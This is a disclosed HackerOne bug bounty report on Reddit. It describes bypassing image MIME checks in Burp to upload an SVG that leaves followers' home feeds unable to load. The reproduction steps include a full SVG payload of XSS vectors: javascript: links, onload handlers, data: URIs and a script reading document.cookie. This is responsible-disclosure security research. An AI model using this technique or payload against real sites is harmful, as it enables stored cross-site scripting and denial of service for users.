 # Image queue default key of 'None' and GraphQL unhandled type exception

## Report Details
- **Report ID**: 996041
- **URL**: https://hackerone.com/reports/996041
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2020-10-01T17:50:43.154Z
- **Disclosed**: 2021-10-27T14:04:50.666Z

## Reporter
- **Username**: moblig
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: reddit

## Vulnerability Information
## Summary:
I started testing for unrestricted file uploads and quickly discovered a way to upload a corrupted file into Reddit. I was able to bypass the MIME type of uploaded files first by uploading a normal PNG file to Reddit, intercepting the request with burp, and changing the content type from `image/png` to `image/svg+xml`, then changing the content of the PNG image to an SVG file which is intended for Stored XSS. The file successfully uploads and I receive a 201 created message back. When trying to upload there is infinite loading time and the post never actually gets posted, but I found a way to bypass this, first, you upload a completely normal PNG file and after it uploads, you do the aforementioned steps to upload an unrestricted file and you can successfully post the corrupted image. When clicking on the post the message `processing image...` appears and the file never loads.
Now comes the Web Cache Poisoning which ultimately leads to a complete DoS on the Reddit Home page. Once the corrupted image has been posted this will affect every user that follows the account that posted it, there is a full DoS that requires **NO user interaction** `Something went wrong. Just don't panic` appears as well as another error message saying `We weren't able to load posts for this page`. If the attacker wants to create more impact he can feed the URL to users who do not follow him.
{F1010810}
 This issue is so persistent that a user can reload the page, close it and open it again, close the browser, log out and log back in, and they still won't be able to access Reddit. This issue becomes even more persistent if a victim follows the attacker or the account posting it, the victim can try to clear the cache, clear cookies, restart the browser but the issue will still be there, there is no way of getting rid of it.


## Steps To Reproduce:

1. As an attacker, click on 'Create Media Post' on the home screen
2.  First choose your profile to post the corrupted image
3. Add a title as usual and **first upload a normal png image** this is a very important step
4. After doing so click on the + sign next to the image you just uploaded and select a normal PNG image
5. Intercept the request within Burp
6. Navigate to `Content-Type:` parameter and replace `image/png` with `image/svg+xml`
7. Replace the content of the PNG image with an SVG file code, I specifically used the following code: 
```
<?xml version="1.0" encoding="utf-8" ?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" xml:space="preserve">
<rect fill="url('http://example.com/benis.svg')" x="60" y="60" width="60" height="60"></rect>
<rect fill="url('https://example.com/benis.svg')" x="60" y="60" width="60" height="60"></rect>
<rect fill="  url(  ' https://example.com/benis.svg '  ) " x="60" y="60" width="60" height="60"></rect>
<rect fill="url('ftp://192.168.2.1/benis.svg')" x="0" y="0" width="60" height="60"></rect>
<rect fill="url('//example.com/benis.svg')" x="60" y="60" width="60" height="60"></rect>
<rect fill="url('/benis.svg')" x="60" y="60" width="60" height="60"></rect>
<rect fill="url('#benis.svg')" x="60" y="60" width="60" height="60"></rect>
<g id="righteye" class="eye">
    <path id="iris-2" data-name="iris" class="cls-4" d="M241.4,143.6s18.5,11.9,36,7.1,29.6-15.8,27.2-24.6c-1.7-6-9.8-9.4-20.3-9.4a59.21,59.21,0,0,0-15.6,2.2,37.44,37.44,0,0,0-12.4,6.4,60.14,60.14,0,0,0-14.9,18.3" transform="translate(-9.7 -9.3)"/>
    <path id="lid" class="cls-11" d="M304.5,124.4c-1.7-6-9.8-9.4-20.3-9.4a59.21,59.21,0,0,0-15.6,2.2,37.44,37.44,0,0,0-12.4,6.4,61.21,61.21,0,0,0-14.9,18.1" transform="translate(-9.7 -9.3)"/>
    <path id="pupil-2" data-name="pupil" class="cls-12" d="M256.7,126.1c2.5,9.2,11,14.8,18.9,12.6s12.3-11.4,9.8-20.6a16.59,16.59,0,0,0-1.2-3.1,59.21,59.21,0,0,0-15.6,2.2,37.44,37.44,0,0,0-12.4,6.4,9.23,9.23,0,0,0,.5,2.5" transform="translate(-9.7 -9.3)"/>
    <path id="eyelash-2" data-name="eyelash" class="cls-13" d="M302.9,122.3c7.7,2.5,17-5,20.8-16.8M292,115.7c7.6,2.8,17.2-4.4,21.4-16M277,115.1c8.1-.3,14.3-10.5,13.9-22.8" transform="translate(-9.7 -9.3)"/>
    <path id="reflection-2" data-name="reflection" class="cls-14" d="M271.1,127.1c0,3.6-2.6,6.5-5.8,6.5s-5.8-2.9-5.8-6.5,2.6-6.4,5.8-6.4,5.8,2.9,5.8,6.4" transform="translate(-9.7 -9.3)"/>
</g>
    <a href="javascript:alert(2)">test 1</a>
    <a xlink:href="javascript:alert(2)">test 2</a>
    <a href="#test3">test 3</a>
    <a xlink:href="#test">test 4</a>

    <a href="data:data:image/svg+xml,%3Csvg xmlns='http://www.w3.org/2000/svg' onload='alert(88)'%3E%3C/svg%3E">test 5</a>
    <a xlink:href="data:image/svg+xml,%3Csvg xmlns='http://www.w3.org/2000/svg' onload='alert(88)'%3E%3C/svg%3E">test 6</a>
    <use xlink:href="#a" x="28" fill="#1A374D"/>
    <path id="a" d="M14 27v-20c0-3.7-3.3-7-7-7s-7 3.3-7 7v41c0 8.2 9.2 17 20 17s20-9.2 20-20c0-13.3-13.4-21.8-26-18zm6 25c-4 0-7-3-7-7s3-7 7-7 7 3 7 7-3 7-7 7z"/>
    <use xlink:href="defs.svg#icon-1"/>
    <line onload="alert(2)" fill="none" stroke="#000000" stroke-miterlimit="10" x1="119" y1="84.5" x2="454" y2="84.5"/>
<line fill="none" stroke="#000000" stroke-miterlimit="10" x1="111.212" y1="102.852" x2="112.032" y2="476.623"/>
<line fill="none" stroke="#000000" stroke-miterlimit="10" x1="198.917" y1="510.229" x2="486.622" y2="501.213"/>
<line fill="none" stroke="#000000" stroke-miterlimit="10" x1="484.163" y1="442.196" x2="89.901" y2="60.229"/>
<line fill="none" stroke="#000000" stroke-miterlimit="10" x1="101.376" y1="478.262" x2="443.18" y2="75.803"/>
<line fill="none" stroke="#000000" stroke-miterlimit="10" x1="457.114" y1="126.623" x2="458.753" y2="363.508"/>
<this>shouldn't be here</this>
<script>alert(document.cookie);</script>
<line fill="none" stroke="#000000" stroke-miterlimit="10" x1="541.54" y1="299.573" x2="543.179" y2="536.458"/></svg>
´´´
8. Forward the request and notice the 201 created message
9. Post the images

## Supporting Material/References:
Full Video PoC:
{F1010849}
In this video, I demonstrate how if a user follows or is already following the attacker account the DoS is present:
{F1010854}
In this video, I demonstrate how a user can try to clear cache, cookies, local storage, restart the browser and the issue will still be present:
{F1010855}
This is the URL where the corrupted files are posted: 
https://www.reddit.com/user/mariomejia127/comments/j3cfbj/web_cache_poisoning/

## Impact

Web cache poisoning and complete denial of service, an attacker can achieve this **without user interaction** there is no way of getting rid of it, an attacker only has to deploy an attack to deny service to Reddit. In some cases I'm not able to even reach Reddit, the site won't load at all. This was tested in the following browsers: 
Firefox
Safari
Opera
For some reason, the behavior is not present in Google Chrome. But any other browser will work.

## Attachments
- Screen_Shot_2020-10-01_at_11.16.11.png
- CompleteDoS_Reddit.mov
- DoSbyFollow.mov
- ClearingCache.mov
